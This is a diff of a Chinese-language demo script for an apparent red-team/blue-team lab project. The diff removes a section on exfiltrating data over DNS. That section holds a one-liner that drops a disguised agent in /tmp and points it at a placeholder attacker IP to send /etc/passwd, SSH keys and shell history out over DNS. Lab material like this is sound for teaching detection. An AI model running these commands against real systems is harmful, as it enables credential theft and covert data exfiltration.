

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/DEMO_FLOW.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/DEMO_FLOW.md
+++ b/docs/DEMO_FLOW.md
@@ -498,82 +565,20 @@ Listener 不會收到連線（進程在 connect() 前被殺）。
 
 ---
 
-## 回合 7 — 紅方資料外傳（防禦缺口展示）
-
-> **目的**：展示即使兩層防禦都開著，DNS/ICMP covert channel 的 data exfiltration 仍然偵測不到
-> **MITRE ATT&CK**: T1005 (Data from Local System), T1048.003 (Exfiltration Over Alternative Protocol)
-
-### T3 — 啟動 Exfil Listener（WSL2）
-
-```bash
-sudo .venv/bin/python3 red_team/exfil_listener.py
-```
-
-預期輸出：
-```
-[*] Exfil Listener starting...
-[*] DNS listener on UDP 53 (interface: eth0)
-[*] ICMP listener ready
-[*] Waiting for incoming data...
-```
-
-### T4 — 在靶機部署 Exfil Agent
-
-在已有的 shell session 裡（Round 5 成功連線後、v2 升級前取得的 access），用 base64 one-liner 部署：
-
-```bash
-echo '<base64_of_exfil_agent.py>' | base64 -d > /tmp/.cache_update.py
-python3 /tmp/.cache_update.py <ATTACKER_IP>
-```
-
-Agent 會自動：
-1. 蒐集 `/etc/passwd`、`~/.ssh/*`、`~/.bash_history`、`~/vuln_api.py` 等
-2. 偵測可用通道（DNS 優先，ICMP 備用）
-3. Base32 編碼 + 分塊，透過 DNS query 送出
-4. 完成後自動刪除自身
-
-### T3 — 觀察接收
-
-預期輸出：
-```
-[+] START file_id=a1b2 filename=passwd
-[+] Receiving: 0003/0042 (a1b2)
-...
-[+] END file_id=a1b2 checksum=OK
-[+] Saved: ./loot/passwd
-
-[+] START file_id=c3d4 filename=bash_history
-...
-[+] Saved: ./loot/bash_history
-```
-
-### T2 — 觀察 eBPF v2（仍在跑）
-
-**重點：eBPF v2 沒有任何 alert。** DNS query 走的是正常的 UDP 53，不觸發任何被監控的 syscall pattern（沒有 memfd_create、沒有 reverse shell 的 dup2 pattern）。
-
-### 講解要點
-
-- 目前的防禦只監控 C2 建立（memfd、reverse shell），不監控 data exfiltration
-- DNS exfiltration 需要另外的偵測機制（分析 DNS query pattern、subdomain 長度異常等）
-- 這說明了即使有兩層防禦，攻擊者還是能找到 blind spot
-- **結論**：defense-in-depth 是持續的過程，不是部署完就結束
-
----
-
 ## 結尾總結
 
 ### 攻防時間線
 
 ```
-回合1     回合1b       回合1c      回合2         回合3         回合4
-偵察   →  蜜罐觸發  →  IP切換   → 紅方攻擊成功 → 藍方清除威脅 → 紅方再攻被擋
-nmap      nc 2222      ip alias    SSTI+memfd    cold-start     eBPF kill
-          MDR封鎖      繞過封鎖    ICMP C2        /proc scan     memfd blocked
+回合1     回合1b       回合1c      回合2         回合2b        回合3
+偵察   →  蜜罐觸發  →  IP切換   → 紅方攻擊成功 → 資料外傳   → 藍方清除威脅
+nmap      nc 2222      ip alias    SSTI+memfd    DNS exfil     cold-start
+          MDR封鎖      繞過封鎖    ICMP C2        covert ch     /proc scan
 
-回合5         回合6           回合7
-紅方繞過v1 → 藍方升級v2攔截 → 紅方外傳資料（防禦缺口）
-reverse shell  connect hook     DNS exfiltration
-TCP bypass     port detect      eBPF 偵測不到
+回合4         回合5           回合6
+紅方再攻被擋 → 紅方繞過v1   → 藍方升級v2攔截
+eBPF kill      reverse shell   connect hook
+memfd blocked  TCP bypass      port detect
 ```
 
 ### 防禦分層架構
````
Also changed, not shown: other parts of docs/DEMO_FLOW.md (+68 -1 lines).
